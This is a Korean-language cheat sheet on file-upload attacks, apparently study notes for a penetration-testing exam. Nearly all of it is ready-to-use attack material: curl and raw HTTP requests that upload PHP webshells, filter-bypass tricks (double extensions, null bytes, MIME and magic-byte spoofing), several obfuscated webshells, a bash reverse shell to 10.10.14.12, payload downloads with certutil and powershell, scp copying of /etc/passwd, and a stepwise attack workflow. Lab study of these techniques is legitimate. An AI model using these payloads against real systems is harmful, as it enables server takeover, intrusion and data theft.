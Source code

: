 # 파일 업로드/다운로드 기법

## curl로 웹 업로드

```bash
# 기본 파일 업로드 (@는 로컬파일 지정자)
curl -F "file=@shell.php" http://target.com/upload.php
curl -F "fileToUpload=@shell.php" http://target.com/upload.php

# 디버그 모드
curl -v -F "file=@shell.php" http://target.com/upload.php

# 필드 여러개 보내기
curl -F "file=@shell.php" -F "submit=Upload" http://target.com/upload.php

# 우회 기법
curl -F "file=@shell.php;filename=shell.jpg" http://target.com/upload.php  # 파일명 변경
curl -F "file=@shell.php;type=image/jpeg" http://target.com/upload.php     # MIME 타입 변경
curl -F "file=@shell.php" -F "MAX_FILE_SIZE=10000000" http://target.com/upload.php # 파일크기 제한 우회
```

## HTTP 멀티파트 요청 수동 작성 (Burp Suite)

```
POST /upload.php HTTP/1.1
Host: target.com
Content-Type: multipart/form-data; boundary=----ABC123
Content-Length: 235

------ABC123
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-php

<?php system($_GET['cmd']); ?>
------ABC123--
```

## 파일 전송 방법

### 방법1: 웹서버 + wget/curl

```bash
# 공격자 PC에서 웹서버 실행
cd /path/to/files
python3 -m http.server 8000
python2 -m SimpleHTTPServer 8000
php -S 0.0.0.0:8000

# 타겟에서 다운로드
wget http://10.10.14.x/shell.php
curl -O http://10.10.14.x/shell.php
wget http://10.10.14.x/shell.php -O /tmp/shell.php  # 경로 지정

# Windows에서
certutil -urlcache -f http://10.10.14.x/nc.exe nc.exe
powershell -c "(New-Object Net.WebClient).DownloadFile('http://10.10.14.x/nc.exe', 'nc.exe')"
powershell wget http://10.10.14.x/nc.exe -OutFile nc.exe
```

### 방법2: SCP/SFTP (SSH 가능할 때)

```bash
# 내 PC → 타겟
scp shell.php user@10.10.10.x:/tmp/
scp -P 2222 shell.php user@10.10.10.x:/var/www/

# 타겟 → 내 PC
scp user@10.10.10.x:/etc/passwd ./
```

### 방법3: Netcat

```bash
# 수신측(타겟)
nc -lvnp 4444 > shell.php

# 송신측(공격자)
nc 10.10.10.x 4444 < shell.php

# 바이너리는 압축해서
# 송신측
tar -cf - shell.bin | nc 10.10.10.x 4444
# 수신측
nc -lvnp 4444 | tar -xf -
```

### 방법4: Base64 활용

```bash
# 1. 공격자 PC에서 인코딩
base64 -w 0 shell.php

# 2. 타겟에서 디코딩
echo "base64문자열..." | base64 -d > shell.php
```

```

## 업로드 필터 우회 기법 (시험에서 자주 나옴!)

### 1. 확장자 필터링 우회

```

# 시도해볼 트릭 목록

shell.php → shell.php.jpg (이중 확장자)
shell.php → shell.pHp (대소문자)
shell.php → shell.phtml (대체 확장자)
shell.php → shell.PHP5 (다른 버전)
shell.php → shell.php. (점 추가)
shell.php → "shell.php " (공백 추가)
shell.php → shell.php;.jpg (세미콜론)
shell.php → shell.ph\x70 (16진수 인코딩)

# 널바이트 삽입 (PHP 5.3.4 미만)

shell.php → shell.php%00.jpg

```

### 2. MIME 타입 변조 (Burp에서 변경)

```

# 원래 값

Content-Type: application/x-php

# 변경할 값 (이미지처럼 속이기)

Content-Type: image/jpeg
Content-Type: image/png
Content-Type: image/gif

````

### 3. 매직바이트/시그니처 속이기

```bash
# GIF 파일 헤더 추가한 웹쉘
echo 'GIF89a;<?php system($_GET["cmd"]); ?>' > shell.gif

# JPEG 헤더 추가
printf "\xFF\xD8\xFF\xE0" > header.jpg
cat header.jpg shell.php > shell.jpg.php

# 이미지에 PHP 코드 숨기기
exiftool -Comment='<?php system($_GET["cmd"]); ?>' image.jpg
mv image.jpg shell.php.jpg
````

### 4. 클라이언트 측 검사 우회

```
# 방법1: F12 개발자도구로 JS 비활성화
# 방법2: 폼 제출 직전에 Burp로 가로채서 파일 내용/이름 변경
# 방법3: HTML 편집해서 accept=".jpg,.png,.gif" 속성 제거
```

## 업로드 성공 후 파일 접근 및 테스트

```
# 일반적인 업로드 경로 추측
http://10.10.10.10/uploads/shell.php
http://10.10.10.10/images/shell.php
http://10.10.10.10/upload/shell.php
http://10.10.10.10/files/shell.php

# 명령 실행 테스트
http://10.10.10.10/uploads/shell.php?cmd=id
http://10.10.10.10/uploads/shell.php?0=id
http://10.10.10.10/uploads/shell.jpg.php%00?cmd=whoami

# dirb/gobuster로 업로드 폴더 찾기
gobuster dir -u http://10.10.10.10 -w /usr/share/wordlists/dirb/common.txt -x php,txt
```

## 자주 쓰는 웹쉘 코드 (콘텐츠 필터링 우회용)

```php
// 1. 기본 웹쉘
<?php system($_GET['cmd']); ?>

// 2. 백틱 사용 (alternative)
<?php echo `$_GET[0]`; ?>

// 3. 함수명 필터링 우회
<?php $_GET['f']($_GET['c']); ?>
// 사용법: ?f=system&c=id

// 4. 인코딩 우회
<?php eval(base64_decode($_REQUEST[1])); ?>
// 사용법: ?1=c3lzdGVtKCdpZCcp

// 5. 파일 포함
<?php include($_GET["file"]); ?>
// 사용법: ?file=/etc/passwd

// 6. 리버스 쉘 원라이너
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.12/4444 0>&1'"); ?>
```

## 내가 많이 쓰는 파일 업로드 공격 패턴

1. 파일 업로드 폼 찾기
2. 기본 PHP 파일 시도 (system/exec 함수)
3. 업로드 실패시 확장자 검사 우회 (.php.jpg, .phtml 등)
4. 확장자 성공해도 내용 필터링시 매직바이트 추가
5. BurpSuite로 Content-Type 변조 시도
6. 클라이언트측 검증 우회 (JS 비활성화)
7. 성공 후 쉘 접속해서 권한상승 시도

## 파일 업로드 취약점 자주 발견되는 곳

- 프로필 이미지 업로드 기능
- 첨부파일 업로드
- 관리자 페이지 백업 기능
- 제품/카탈로그 이미지 업로드
- 이력서/문서 제출 폼
- 댓글에 이미지 첨부 기능
